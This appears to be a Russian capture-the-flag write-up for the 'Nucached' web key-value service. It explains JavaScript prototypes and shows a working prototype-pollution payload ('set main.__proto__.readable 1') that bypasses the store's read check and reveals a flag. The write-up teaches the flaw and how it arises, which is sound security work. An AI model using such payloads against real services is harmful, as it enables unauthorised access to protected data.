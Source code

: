 # Nucached: Write-up

Имеем веб-сервис, выглядящий как терминальчик, на котором можно вводить команды. Начнем с самого очевидного, что приходит в голову — `help`:

```
> help
nucached: a revolutionary alternative to memcached!
(c) 2003, Vasya Pupkin
Usage:
  help: Show this message
  get key: Show key key
  set key value: Set the value of key to value
  ls: List all keys
Nested key-value objects are supported, e.g. set a.b.c value.
```

По-видимому, это обычное key-value хранилище. Посмотрим, что там уже есть:

```
> ls
Store secrets (unreadable) = ???
Store main:
  main.hello = "Hello, world!"
```

Ага, понятненько. Убедимся, что мы вообще понимаем, как работают команды:

```
> get main.hello
"Hello, world!"

> get main
{"hello":"Hello, world!"}
```

Попробуем на удачу?

```
> get secrets
unreadable namespace secrets

> get secrets.flag
unreadable namespace secrets
```

По-видимому, так просто обойти защиту не получится. Пора обратиться к исходному коду.

Интересующий нас файл `worker.js` отвечает за чтение и запись, а также проверку разрешений. Проверка на `unreadable namespace` выглядит так:

```javascript
if(!object[ns].readable) {
    return `<i>unreadable namespace</i> ${escapeHTML(ns)}\n`;
}
```

По умолчанию это свойство на `secrets` вообще не установлено:

```javascript
const STORES = {
    secrets: {
        writable: true,
        value: {
            flag
        }
    },
    main: {
        readable: true,
        writable: true,
        value: {
            hello: "Hello, world!"
        }
    }
};
```

Гугля «js exploit change property» или «js exploit add property», можно достаточно быстро наткнуться на описание уязвимости prototype pollution.

Идея уязвимости заключается в следующем. ООП в JavaScript устроено так, что у каждого объекта `x` имеется свойство `__proto__`, которое также является объектом, и при чтении свойства `x.someProperty`, если свойство `someProperty` не установлено, вместо него читается `x.__proto__.someProperty`, при его отсутствии — `x.__proto__.__proto__.someProperty` и так далее. Соответственно, для того, чтобы создать класс, надо определить некоторый «базовый» объект, свойствами которого будут методы класса, а в конструкторе поставить этот базовый объект в качестве `__proto__` объекта, содержащего методы конкретного инстанса класса. Например:

```javascript
const BASE_CAT = {
    meow() {
        return `"Meow!!", says ${this.name}.`;
    }
};

function Cat(name) {
    const self = {__proto__: BASE_CAT};
    self.name = name;
    return self;
}

const cat = Cat("Mittens");
cat.meow();
```

Поскольку заводить на каждый класс сразу две переменные — `BASE_CAT` и `Cat` — неудобно, вместо `BASE_CAT` используют `Cat.prototype` (для этого свойство `prototype` установлено в `{}` по умолчанию у каждой функции):

```javascript
function Cat(name) {
    const self = {__proto__: Cat.prototype};
    self.name = name;
    return self;
}

Cat.prototype.meow = function() {
    return `"Meow!!", says ${this.name}.`;
};

const cat = Cat("Mittens");
cat.meow();
```

Но поскольку это очень частый паттерн, в JavaScript есть оператор `new`, который делает ровно то, что описано в функции `Cat`, но более удобно: он создает объект `{__proto__: Cat.Prototype}` и подставляет его в качестве переменной `this`, а затем `this` возвращает. То есть код выше можно упростить до:

```javascript
function Cat(name) {
    this.name = name;
}

Cat.prototype.meow = function() {
    return `"Meow!!", says ${this.name}.`;
};

const cat = new Cat("Mittens");
cat.meow();
```

Это действительно один из самых простых методов реализации ООП, но он плохо сочетается с другой особенностью JavaScript. Во многих языках, например, Python и C++, разделяются *свойства*, которые могут быть полями и методами, например `dict.items()` или `std::vector::size()`, и *элементы*, которые свои у каждой конкретной структуры данных, например, `dict[key]` и `vector[index]`. В JavaScript же свойство и элемент — это одно и то же, поэтому, если программа позволяет записать что-то в свойство `__proto__`, прототип объекта изменится. Это можно воспроизвести прямо в nucached:

```
> set main.test {"a": 1}
success

> set main.test.__proto__ {"b": 2}
success

> get main.test.a
1

> get main.test.b
2

> set main.test.__proto__ {}
success

> get main.test.b
non-existent
```

Однако ещё хуже, если можно переписать не свойство `__proto__`, а что-то *внутри* свойства `__proto__`, потому что это изменяет прототип всех объектов, наследующихся от того же самого родителя; но все объекты, создаваемые через `{}`, имеют общий прототип, поэтому если мы добавим поле `readable` внутри прототипа любого объекта, оно появится у вообще всех объектов, включая тот, который проверяется условием `object[ns].readable`:

```
> set main.__proto__.readable 1
success

> ls
Store secrets:
  secrets.flag = "ugra_now_go_patch_your_own_websites_bpzgfnr7bfnp"
  secrets.readable = 1
Store main:
  main.hello = "Hello, world!"
  main.test
    main.test.a = 1
    main.test.readable = 1
  main.readable = 1
Store readable (unwritable) = undefined
```

Уязвимость в данном случае заключается в том, что `set` не проверяет, не переписывает ли оно специальное поле `__proto__`. Другие поля, конечно, также могут быть опасными, если их можно заменить на что угодно (например, метод `toString`), поэтому при реализации алгоритмов десериализации надо быть очень осторожным.

Флаг: **ugra_now_go_patch_your_own_websites_bpzgfnr7bfnp**
